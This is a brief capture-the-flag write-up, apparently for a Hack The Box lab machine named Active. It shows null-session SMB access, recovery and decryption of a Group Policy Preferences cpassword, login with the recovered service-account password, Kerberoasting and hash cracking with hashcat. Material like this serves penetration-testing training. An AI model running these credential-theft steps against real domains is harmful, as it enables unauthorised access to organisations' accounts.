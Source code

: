 The smb share allows Null authentication to the Replication share
```shell
smbclient \\\\10.10.10.100\\Replication -N

smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> get Groups.xml 


```
The **cpassword** in the Groups.xml is an encrypted password that was used by Group Policy Preferences prior to Microsoft patching this known issue (MS14-025)
#### Cpassword value:
```
edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

# Decrypting the Password
```shell
 gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18

```
# Connecting to the Users share
```shell
smbclient \\\\10.10.10.100\\Users -U 'SVC_TGS%GPPstillStandingStrong2k18'

Try "help" to get a list of possible commands.
smb: \> dir


```

# Kerberoasting 
```shell
GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/SVC_TGS -request

```
Crack the hash
```shell
hashcat -m 13100 admin_hash.txt /usr/share/wordlists/rockyou.txt 
```
